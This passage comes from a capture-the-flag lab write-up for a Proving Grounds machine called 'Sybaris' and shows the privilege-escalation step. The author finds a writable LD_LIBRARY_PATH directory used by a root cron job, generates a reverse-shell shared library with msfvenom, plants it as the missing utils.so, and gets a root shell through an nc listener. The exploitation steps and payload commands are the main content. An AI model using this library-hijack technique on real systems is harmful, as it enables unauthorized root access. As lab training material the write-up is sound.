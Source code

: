 ## Priv Esc

From crontab

```text
pablo@sybaris ~/tmp$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
MAILTO=""

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
  *  *  *  *  * root       /usr/bin/log-sweeper
```

Note that crontab shows LD_LIBRARY_PATH includes a path we can write to **/usr/local/lib/dev**, and /usr/bin/log-sweeper is executed every min.

The file type is

```text
pablo@sybaris ~/tmp$ file /usr/bin/log-sweeper
/usr/bin/log-sweeper: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=b2507ccc8c1256db736f2a6c007d8993605e51fb, not stripped
```

Check which shared libraries are used by the binary

```text
pablo@sybaris ~/tmp$ ldd /usr/bin/log-sweeper
        linux-vdso.so.1 =>  (0x00007ffdac7c6000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007f6d2bbfe000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f6d2bfcc000)
```

Note that it loads utils.so which isn't found. We can hijack that by placing it in the writable LD_LIBRARY_PATH folder. Get a reverse shell elf-so

```text
root@kali:~/CTF/PGPractice/Sybaris/PE# msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=6379 -f elf-so -o utils.so
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: utils.so
```

Put it in writable shared libraries path

```text
pablo@sybaris /usr/local/lib/dev$ chmod +x utils.so
pablo@sybaris /usr/local/lib/dev$ ls -lah
total 4.0K
drwxrwxrwx  2 root  root   22 Jun 19 07:25 .
drwxr-xr-x. 4 root  root   30 Sep  7  2020 ..
-rwxrwxr-x  1 pablo pablo 476 Jun 19 07:23 utils.so
```

Wait a min and we see

```text
root@kali:~/CTF/PGPractice/Sybaris/PE# nc -nlvp 6379
listening on [any] 6379 ...
connect to [192.168.49.135] from (UNKNOWN) [192.168.135.93] 56084
id
uid=0(root) gid=0(root) groups=0(root)
```

